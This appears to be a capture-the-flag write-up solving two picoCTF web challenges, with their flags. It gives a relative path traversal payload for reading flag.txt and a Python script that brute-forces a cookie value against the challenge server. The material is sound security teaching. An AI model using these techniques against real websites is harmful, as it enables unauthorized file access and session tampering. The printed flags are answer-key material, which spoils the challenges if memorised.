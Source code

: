 # Forbidden Paths

**Flag:** ` picoCTF{7h3_p47h_70_5ucc355_6db46514}`

## Approach

- Since the website filters absolute paths, we can just use relative paths like `../../../../../../flag.txt`.

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

# cookies

**Flag:** `picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}`

## Approach

- When entering the placeholder value of `snickerdoodle`, we can see that it updates the `name` cookie's value to 0. If we modify this cookie to `1`, it sends us to the next page which is for `chocolate chip`.
- Using this information, we can write a simple python script to send POST requests until we get the flag:

Input:
```
import requests

headers = {
    'Content-Type': 'application/x-www-form-urlencoded', 
    'User-Agent': 'Mozilla/5.0',
}

cookies = {
    'name': '0'
}
response = requests.post('http://mercury.picoctf.net:21485/search', headers=headers, cookies=cookies)
while ('picoCTF' not in response.text):
    try:
        response = requests.post('http://mercury.picoctf.net:21485/search', headers=headers, cookies=cookies)
        print(response.status_code)
        # print(response.text)
    except requests.exceptions.RequestException as e:
        print(f"Error: {e}")

    cookies['name'] = str(int(cookies['name']) + 1)
else:
    print(response.text)

```
Output: (trucated)
```
...
        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
        </div>
...
```

## New concepts

1. Sending cookies in the `requests` python module

## References

- https://stackoverflow.com/questions/7164679/how-to-send-cookies-in-a-post-request-with-the-python-requests-library

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

